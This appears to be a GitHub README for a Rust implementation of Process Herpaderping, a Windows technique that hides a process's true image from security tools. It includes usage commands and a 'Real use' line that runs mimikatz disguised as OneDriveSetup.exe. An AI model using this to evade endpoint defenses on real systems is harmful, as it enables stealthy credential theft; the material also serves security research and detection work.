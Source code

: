 # Process Herpaderping 🦀

<p align="left">
	<a href="https://www.rust-lang.org/"><img src="https://img.shields.io/badge/made%20with-Rust-red"></a>
	<a href="#"><img src="https://img.shields.io/badge/platform-windows-blueviolet"></a>
</p>

- [Overview](#overview)
- [Usage](#usage)
- [References](#references)

# Overview

Process Herpaderping is a technique that aims to hide the true intentions of a process by altering the disk contents after the process image has already been loaded into memory. This procedure causes an unusual reaction in both security systems and the operating system itself.

# Usage 

To execute the file, pass the EXE file that will be executed:
```sh
cargo run -- <file.exe> <args> <path>
```
```sh
target/release/process_herpaderping.exe <file.exe> <args> <path>
```

Real use:
```sh
target/release/process_herpaderping.exe mimikatz.exe "coffee localtime exit" C:\Windows\System32\OneDriveSetup.exe
```

# References

* https://github.com/jxy-s/herpaderping